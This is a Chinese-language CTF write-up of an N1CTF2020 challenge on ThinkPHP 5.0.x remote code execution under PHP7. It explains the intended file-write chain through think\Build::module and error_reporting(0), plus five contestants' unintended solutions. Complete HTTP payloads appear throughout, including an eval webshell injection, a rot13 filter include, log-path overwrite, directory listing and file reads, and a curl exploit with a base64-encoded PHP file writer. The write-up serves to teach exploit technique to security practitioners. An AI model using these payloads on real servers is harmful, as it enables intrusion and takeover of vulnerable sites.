


# TinkPHP5.0.X RCE-PHP7 新利用方式挖掘

### 前言
在刚结束的N1CTF2020中我出了一道存在RCE漏洞的tp5.0.0+php7，同时做了一些限制。

1. 限制了常用的 `include` 必须为 `.php` 结尾。

2. 禁用了反序列化函数以及其他单参数危险函数

3. `open_basedir` 设置为web目录，因此 `/tmp/` 目录下的 `session` 也无法利用，另外关闭了tp5自带的log功能。

4. 以及设置了仅 `public` 目录下可写

`chown -R root:root /var/www/html` 
`chmod -R 755 /var/www/html` 
`chmod 777 /var/www/html/public` 

众所周知，在tp5.0.x+php7的实战环境下，如果 `disable_functions` 限制了所有单参数的危险函数，我们就需要用
`/thinkphp/library/think/Loader.php` 中的 `__include_file` 函数调用 `include` 配合 `log` 、 `session` 、文件上传来getshell，当然前段时间也有人挖掘出了5.0.x的反序列化链，所以也可以配合反序列化函数。

在比赛过程中有很多师傅用了 `\think\Lang::load` 里的包含，这个点之前没有注意到。

### 已知利用方式的局限性

- 首先 `log` 的话肯定需要开启，虽然默认就是开启的，不过有些时候如果日志文件中存在令php解析错误的垃圾数据那么就得等到第二天再利用了。(不过也可以用 `0ops` 的非预期去改掉日志文件路径)
- 其次文件上传的话需要有类似上传图片的功能，大多数情况下肯定需要先登陆，有些网站不会对外开启注册功能，比如注册需要邀请码什么的。
- 然后是反序列化链，目前并没有爆出通杀5.0.0-5.0.23的反序列化链。
- 最后是 `session` ， `session` 应该是最好用的， `session` 目录可以在 `phpinfo` 中找到，不过你一定遇到过 `no value` 的情况，虽然可以跑一下session默认目录字典但是还是有点麻烦。

因此我就想找一个通杀5.0.x，没有条件限制的利用方式。当然，tp5 RCE已经过去快两年了，现在的5.0.x版本大多都为没有漏洞的5.0.24，所以本文的目的主要是和大佬们交流分享一下。

tp5.0.xRCE流程这里就不讲了，只需要知道现在我们可控 `$filters` 和 `$value` ，以及现在调用函数只能传入单参数，所以我们不能直接去调用 `file_put_contents` 来写shell。所以我们需要在tp中寻找调用了 `call_user_func_array` 、 `file_put_contents` 等危险函数的地方。

### 预期解

看一下 `thinkphp/libray/think/Build.php` 的  `\think\Build::buildHello` 方法

在回溯 `$content` 的过程中，发现虽然 `buildHello` 需要传两个参数，但是我们可以通过 `module` 方法间接调用它，且第一个参数 `$module` 可控，而且写入内容部分可控。第一次全局搜 `file_put_contents` 时看到需要两个参数直接跳过了，忽略了可以间接调用的情况。

`/thinkphp/library/think/Build.php::module` 方法用来创建模块， `buildHello`  方法用来创建模块的欢迎页面。
首先会判断我们传入的 `$module` 参数是否已经创建创建了对应的应用模块目录，没有则创建对应的应用模块目录。然后如果 `$module` 等于 `runtime` ，就会创建对应的配置文件和公共文件_、_创建模块的默认页面。

在 `buildHello` 方法中，会用参数替换掉模版文件中对应的模版参数，如果文件名的目录不存在，则调用 ` mkdir(dirname($filename), 0755, true);` 递归创建，最后写入欢迎页面也就是 `模块名/controller/Index.php` 。
我们传一个 `test` 进去，可以看到在 `application` 目录下生成了对应的模块。我们可控的地方在下面的红框中。

绕过方式很简单 `test;phpinfo();//` 即可，然后配合inlcude即可getshell。

这就完了吗？肯定没有，不然这篇文章就没有什么意义了。
实战中 `application` 目录很可能是没有写权限的，除非是windows，而且触发还要再调用一下include，有点麻烦，为什么不直接写到public目录下呢。静态文件、图片什么的一般都会放在public目录的子目录中，而对应的文件夹都是有写权限的，现在假设要将其写到public目录下，构造 `../public/test;phpinfo();//` 打过去，发现语法错误。

怎么办，你可能会想到 `a;"/../../public/test".phpinfo();` 这样。

但是在linux下， `mkdir` 路径中默认不允许有不存在的目录

不过windows下是允许的。

如果只能打windows那就略显鸡肋了，继续绕就完事了。

测试发现如果 `mkdir` 带了true参数的话，路径中是允许有不存在的参数的。

以及 `file_put_contents` 路径中也允许出现不存在的目录。

还有 `mkdir` 报的是warning，不影响程序后续的执行。

这样的话，即使在创建模块目录的时候报了 `warnning` ，也不影响后续目录的创建以及文件的写入。因为最后他调用 `mkdir` 的时候传入了true参数。

可在tp中，通过debug发现 `mkdir` 报了warning后就直接退出了。查阅文档发现tp5默认情况下会对任何错误（包括警告错误）抛出异常。

我们可以通过 `error_reporting` 设置错误级别。

怎么办呢，绕就完事了。
继续回头看 `filterValue` ，其调用了多次 `call_user_func` ，我们完全可以通过 `call_user_func` 调用 `error_reporting` 传入0，关闭错误报告。

但是这里虽然 `$filter` 可控，可 `$value` 的值每次调用的时候都会发生变化。
`$filter` 我们需要传入 `error_reporting` 和 `think\Build::module` ， `$value` 我们需要传入 0 和 `a;"/../../public/123".phpinfo();//` 。
如果先执行 `error_reporting` 的话，调用完 `error_reporting(0)` 或者 `error_reporting('a;"/../../public/123".phpinfo();//')` 以后都会返回一个数字覆盖掉 `$value` 的值，导致下次调用 `think\Build::module` 时，参数不是预期的 `a;"/../../public/123".phpinfo();//` 。
所以肯定要先执行 `think\Build::module` ，可如果先传入的参数是 `a;"/../../public/123".phpinfo();//` 会直接报异常然后退出，所以必须要先传入参数0，0可以正常创建目录，然后接下来会调用 `error_reporting(0)`  关闭错误报告，下一次循环传入 `a;"/../../public/123".phpinfo();//` 就能够绕过了。

可是payload还是有问题，会先在app目录下创建模块名为 `0` 的目录，然后才执行 `error_reporting(0)` 。
绕就完事了，字符串只要不是数字开头都等于 `0` ，构造 `../public/0` 写入到可写目录即可。

我关掉了 `application` 目录的写权限，可以看到 `application` 目录没有创建任何文件夹， `0` 创建在了 `public` 下。

### 非预期1
`_method=__construct&method=GET&server[]=1&filter[]=think\Build::module&get[]=index//../../public//?><?php eval($_GET[a]);?>` 

做出来的队伍都是用的注释符来绕过语法错误: `index//../../public//?><?php eval($_GET[a]);?>` ,这种方法不会跨不存在的目录也就不会报 `waning` 错误，相比于预期更加简单了一些，当时并没有想到。

### 非预期2
文件包含没修完全导致的使用php过滤器+rot13绕过语法错误。
来自 `vidar-team` 的payload
`b=../public/./<?cuc riny(trgnyyurnqref()["pzq"]);?>&_method=__construct&filter=think\Build::moudle&a=1&method=GET` 
`b=php://filter/read=string.rot13/resource=./<?cuc riny(trgnyyurnqref()["pzq"]);?>/controller/Index.php&_method=__construct&filter=think\__include_file&a=1&method=GET`

### 非预期3
`_method=__construct&filter[]=json_decode&filter[]=get_object_vars&filter[]=think\Log::init&method=GET&get[]={"type":"File", "path":"/var/www/html/public/logs"}` 

`0ops` 的师傅在 `think\Log::init` 找到了另一个利用
传入了一个数组参数: `File` 和 `/var/www/html/public/logs` 

然后在 `think\Log::init` 调用了 `new \think\log\driver\File()` 并传入了一个包含 `path` 值的数组参数，并赋值给静态成员属性 `self::$driver` 

在 `File` 的构造函数中覆盖掉了默认的 `path` 路径

最终调用 `thinkphp/library/think/log/driver/File.php` 的 `save` 方法写入log。

然后调用 `think\Lang::load` 中的include包含即可

不过比较遗憾的是 `error_log` 被我不小心加到了 `disable_functions` 里。

### 非预期4

`_method=__construct&filter[]=scandir&filter[]=var_dump&method=GET&get[]=/var/www/html/public/`
`_method=__construct&filter[]=highlight_file&method=GET&get[]=/var/www/html/public/index.php`

直接列目录+文件读取上车

### 算是半个预期的非预期5

来自国外的 [0xParrot](https://twitter.com/0xParrot)@super guesser

`curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode" --output - > a.html` 

首先我之前并不知道  `::` 可以直接调用非静态方法，问了一些师傅他们也表示没注意过。

不过有 `$this` 的话就不行了。

当开启了 `error_reporting(E_ALL);` 时，就会报一个 `PHP Deprecated` ，但是不影响程序正常运行。

上面提到了 `\think\view\driver\Php` 类的 `display` 方法可以调用 `eval` ，且里面并没有调用 `$this` 。

而 `tp5` 默认就调用了 `error_reporting(E_ALL)` ，且有一套内置的错误处理机制。上面预期解也提到了即使报了 `warning` 程序也会中止执行。

`set_error_handler()` 函数设置用户自定义的错误处理程序，会绕过标准 PHP 错误处理程序。`set_exception_handler()` 函数设置用户自定义的异常处理函数。`register_shutdown_function()` 函数会注册一个会在PHP中止时执行的函数

这个payload首先调用 `set_error_handler` 覆盖掉了默认的错误处理函数 `appError` 为 `implode` 。

这个时候由于返回值不可控，则又调用了 `self::path` 方法

因为 `self::path` 中返回的 `$this->path` 可以通过POST参数控制，具体可以看tp5 RCE漏洞成因。

然后调用 `base64_decode` 解码

最后调用 `\think\view\driver\Php::Display` 传入可控参数，这个时候因为报错处理函数被覆盖为 `implode` 了，因此程序会继续执行。

最终调用 `eval` getshell。

这位大佬使用 `::` 调用非静态方法是我没见过的操作，然后他也是和预期一样绕过了tp5的报错，不过他使用的是 `set_error_handler` 去覆盖错误处理函数，而我使用的是 `error_reporting(0)` 关闭错误报告，所以这算是半个预期，学爆。

### 后记
这道题被大佬们非预期的更有意思了，虽然大家都是非预期做出来的，不过我认为在有限制的条件下能够成功利用都是可以的，主要目的还是可以互相学习一下思路。
